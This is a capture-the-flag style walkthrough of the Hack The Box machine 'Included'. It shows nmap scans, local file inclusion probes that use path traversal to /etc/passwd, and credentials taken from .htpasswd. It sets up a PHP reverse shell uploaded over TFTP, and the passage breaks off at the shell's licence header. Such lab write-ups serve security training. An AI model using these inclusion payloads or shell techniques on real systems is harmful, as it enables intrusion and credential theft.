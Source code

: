 # Included
![hackthebox_logo](https://user-images.githubusercontent.com/83867734/141313996-2c2024f2-3775-4bfb-9809-5d51005379c3.png)


Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Kali Linux
* IP Address: 10.10.14.251

Victim:
* Name: victim_machine
* IP Address: 10.129.170.67
* Other information must be gathered during the attack

Phase 1: Enumeration
--
On the attacker_machine:

    $ sudo nmap -sS 10.129.170.67 -vvv
    $ sudo nmap -sU 10.129.170.67 -vvv
    
The most important information is port 80/tcp and port 69/udp (TFTP) opened.

TFTP is the Trivial FTP, a minimal FTP protocol used for basic FTP functions. We can use it to connect to the victim machine.

For first, since port 80/tcp is opened, let's visit the IP address by the browser: http://10.129.170.67.

The URL shows a standard website by from the shown URL on the bar, http://10.129.170.67/?file=home.php, it could be vulnerable to local file inclusion because of `?file=` parameter. For being sure of this, we can try to do some check by searching for Linux or Windows file.

Usually, we can visit the following URL: http://10.129.95.185/?file=../../../etc/passwd or http://10.129.95.185/?file=/etc/passwd.

If we get some results, it means that is actually vulnerable to local file inclusion.

Usually, when we detect this kind of vulnerability, we can try to search valuable information inside some files. Some of them are described here: https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html

In our case, we didn't find any valuable information inside these files except for `.htpasswd` that contains the username and the password of one user on the target machine. We will use it later.

Remember also that port 69/udp is opened, so by using TFTP and exploiting local file inclusion we can upload and enable a PHP reverse shell.

Phase 2: Foothold
---
For first, we must create a PHP shell. One example is the following:
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
```